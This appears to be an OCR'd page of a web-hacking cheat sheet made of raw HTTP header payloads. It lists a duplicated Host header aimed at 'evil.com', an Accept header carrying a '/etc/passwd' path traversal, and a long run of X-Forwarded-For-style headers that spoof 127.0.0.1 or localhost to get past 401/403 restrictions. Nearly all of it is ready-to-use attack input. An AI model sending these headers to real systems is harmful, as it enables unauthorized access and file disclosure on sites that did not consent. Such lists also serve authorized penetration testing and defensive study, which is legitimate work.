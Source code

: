     # Try to repeat same Host header 2 times
    Host: legit.com
    Stuff: stuff
    Host: evil.com
    
    # Bypass type limit
    Accept: application/json, text/javascript, */*; q=0.01
    Accept: ../../../../../../../../../etc/passwd{{'
    
    # Try to change the HTTP version from 1.1 to HTTP/0.9 and remove the host header
    
    # 401/403 bypasses 
    # Whitelisted IP 127.0.0.1 or localhost
    Client-IP: 127.0.0.1
    Forwarded-For-Ip: 127.0.0.1
    Forwarded-For: 127.0.0.1
    Forwarded-For: localhost
    Forwarded: 127.0.0.1
    Forwarded: localhost
    True-Client-IP: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Custom-IP-Authorization: 127.0.0.1
    X-Forward-For: 127.0.0.1
    X-Forward: 127.0.0.1
    X-Forward: localhost
    X-Forwarded-By: 127.0.0.1
    X-Forwarded-By: localhost
    X-Forwarded-For-Original: 127.0.0.1
    X-Forwarded-For-Original: localhost
    X-Forwarded-For: 127.0.0.1
    X-Forwarded-For: localhost
    X-Forwarded-Server: 127.0.0.1
    X-Forwarded-Server: localhost
    X-Forwarded: 127.0.0.1
    X-Forwarded: localhost
    X-Forwared-Host: 127.0.0.1
    X-Forwared-Host: localhost
    X-Host: 127.0.0.1
    X-Host: localhost
    X-HTTP-Host-Override: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-Real-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-Addr: localhost
    X-Remote-IP: 127.0.0.1
    